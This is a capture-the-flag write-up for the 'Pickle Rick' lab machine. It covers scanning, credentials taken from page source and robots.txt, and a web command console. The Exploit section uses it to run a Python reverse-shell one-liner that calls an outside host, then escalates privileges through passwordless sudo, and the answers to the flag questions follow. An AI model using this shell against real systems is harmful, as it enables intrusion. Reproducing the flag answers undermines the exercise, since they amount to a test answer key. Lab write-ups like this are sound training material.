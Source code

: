 # Pickle Ricke

![main-page.png](images/main-page.png)

```bash
export IP=10.10.195.58
```


--------------------------------------------------------------------------------
## Nmap
```bash
nmap -sC -sV -oN nmap/initial $IP
```

```
# Nmap 7.94SVN scan initiated Sat Jun 29 11:26:35 2024 as: nmap -sC -sV -oN nmap/initial 10.10.195.58
Nmap scan report for 10.10.195.58
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:f8:8f:b5:bc:41:8d:7d:42:5e:42:ee:34:4f:6f:0a (RSA)
|   256 65:61:cb:aa:45:7f:cc:e7:bb:16:7a:65:d9:a0:f2:23 (ECDSA)
|_  256 42:32:09:7d:39:d8:63:8d:79:5a:fe:f2:a7:c8:f1:b5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 29 11:27:15 2024 -- 1 IP address (1 host up) scanned in 39.90 seconds
```

--------------------------------------------------------------------------------
## Clue

<details>
    <summary>Clue in source code:</summary>

    ```html
    <!--
        Note to self, remember username!

        Username: R1ckRul3s
    -->
    ```

</details>

<details>
    <summary>Clue in robots.txt:</summary>

    ```
    Wubbalubbadubdub
    ```

</details>

--------------------------------------------------------------------------------
## Gobuster

```bash
gobuster dir --url $IP --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
```
```
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.195.58/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```
##### Trying to log in `http://10.10.195.58/login.php` 
<details>
    <summary>Success login:</summary>

    ```
    R1ckRul3s
    Wubbalubbadubdub
    ```

</details>


##### Redirected to `/portal.php` wich contains a terminal window

--------------------------------------------------------------------------------
## Webpage console

```
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
$ whoami
www-data
```

## Exploit
Reference:
[https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl)

Locally
```bash
nc -nlvp 9001
```

Executing the command in the web console field
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```

-------------------------------------------------------------------------------
## Privilege Escalation

```bash
www-data@ip-10-10-195-58:/home/rick$ ./linpeas.sh

User www-data may run the following commands on ip-10-10-195-58:
    (ALL) NOPASSWD: ALL
```

--------------------------------------------------------------------------------
## Spoiler alert

<details>
    <summary>What is the first ingredient Rick needs?</summary>

    ```
    http://10.10.195.58/Sup3rS3cretPickl3Ingred.txt
    `mr. meeseek hair`
    ```

</details>

<details>
    <summary>Whats the second ingredient Rick needs?</summary>

    ```
    /home/rick$ cat second\ ingredients
    1 jerry tear
    ```

</details>

<details>
    <summary>Whats the final ingredient Rick needs?</summary>

    ```
    /root/
    3rd ingredients: fleeb juice
    ```

</details>


